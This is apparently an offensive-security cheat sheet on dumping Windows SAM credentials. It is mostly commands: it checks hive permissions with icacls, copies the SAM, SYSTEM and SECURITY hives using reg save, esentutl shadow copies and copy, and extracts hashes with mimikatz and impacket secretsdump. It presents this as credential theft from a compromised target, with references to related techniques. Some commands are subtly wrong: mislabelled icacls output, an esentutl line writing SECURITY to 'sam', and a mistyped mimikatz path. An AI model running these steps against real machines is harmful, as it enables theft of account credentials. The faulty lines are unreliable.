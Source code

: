 # 01 - Manual

## 1.1 - Dumping SAM hashes manually

```
C:\> icacls c:\windows\system32\config\security
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)
           
C:\> icacls c:\windows\system32\config\system
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)

C:\> icacls c:\windows\system32\config\sam
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)
           
C:\> icacls C:\Windows\Repair\SAM
C:\Windows\Repair\SAM WS01\user:(R)
                      NT AUTHORITY\SYSTEM:(I)(F)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Users:(I)(RX)
                      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                      APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

C:\> icacls C:\Windows\Repair\SYSTEM
C:\Windows\Repair\SYSTEM WS01\user:(R)
                         NT AUTHORITY\SYSTEM:(I)(F)
                         BUILTIN\Administrators:(I)(F)
                         BUILTIN\Users:(I)(RX)
                         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges have that ability such as `WS01\user:(R)` in this case.

### 1.1.1 - Save the hashes via `registry`

`C:\> reg save hklm\security c:\temp\security`

`C:\> reg save hklm\system c:\temp\system`

`C:\> reg save hklm\sam c:\temp\sam`

### 1.1.2 - Shadow copy `esentutl.exe`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\sam`

### 1.1.3 - Use the `copy` command

`C:\> copy C:\Windows\System32\config\SAM c:\temp\sam`

`C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system`

1. Dumping SAM credentials with `mimikatz`

`mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security`

2. Dumping SAM credentials with `secretsdump`

Instead of storing the hashes on the compromised target use the **File Transfer techniques.** Once that the process is done we can dump the hashes using one of the impacket scripts called `secretsdump`.

The syntax for `secretsdump` is:

`$ secretsdump.py -sam sam -system system local`

`$ secretsdump.py -sam sam -security security -system system local`

## References

- [Credential Access and Credential Dumping: Dumping Hashes From SAM Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)